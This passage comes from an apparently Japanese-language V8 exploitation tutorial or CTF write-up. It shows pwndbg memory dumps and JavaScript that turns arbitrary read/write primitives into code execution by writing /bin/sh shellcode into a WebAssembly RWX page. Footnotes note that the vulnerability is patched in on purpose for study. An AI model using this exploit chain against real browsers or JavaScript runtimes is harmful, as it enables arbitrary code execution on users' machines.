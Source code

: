 ```javascript
0x319708085ef4: 0x0824385d000000b8      0x08210cc9080426dd
0x319708085f04: 0x0824317d000000b8      0x080426dd080426dd
0x319708085f14: 0x000000000000005c      0x000055752b7532a0
0x319708085f24: 0x000055752b6c7970      0x0000000000000002
pwndbg> search -8 0x55752b6c7440
Searching for value: b'@tl+uU\x00\x00'
[anon_319708080] 0x319708085e48 0x55752b6c7440 /* '@tl+uU' <- ???
[heap]          0x55752b6c7850 0x55752b6c7440 /* '@tl+uU'
*/
// diff: 0x14

let aaw_buf = new ArrayBuffer(0x400);
let dv = new DataView(aaw_buf);
let backing_store_addr = addrof(aaw_buf) + 0x14n;

function set_address_aaw_outside(addr) {
    aaw(backing_store_addr, addr);
}

// prepare rwx page for shellcode
// stolen from pwners' scripts
let wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
let wasm_mod = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_mod);
let f = wasm_instance.exports.main;

/*
pwndbg> x/16gx 0x3f8108212ba5-1
0x3f8108212ba4: 0x080426dd08245275      0x84000000080426dd
0x3f8108212bb4: 0x0001000000007f37      0x0000ffff00000000
0x3f8108212bc4: 0x0000004800000000      0x080426dd00003f81
0x3f8108212bd4: 0x0000560d463561c0      0x00000000080426dd
0x3f8108212be4: 0x0000000000000000      0x0000000000000000
0x3f8108212bf4: 0x0000000000000000      0x0000560d46356a90
0x3f8108212c04: 0x00003f8100000000      0x0000024928a0f000  <- start of RWX page
0x3f8108212c14: 0x080877e108087629      0x08212b8d0820221d
*/
// diff: 0x68

// get rwx addr
let wasm_addr = addrof(wasm_instance);
let rwx_addr = aar(wasm_addr + 0x68n)

set_address_aaw_outside(rwx_addr)

// write shellcode
let shellcode = [72, 49, 210, 82, 72, 184, 47, 98, 105, 110, 47, 47, 115, 104, 80, 72, 137, 231, 82, 87, 72, 137, 230, 72, 141, 66, 59, 15, 5]

for (let i = 0; i < shellcode.length; i++) {
    dv.setUint8(i, shellcode[i]);
}

// Win!!
f();
```


[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる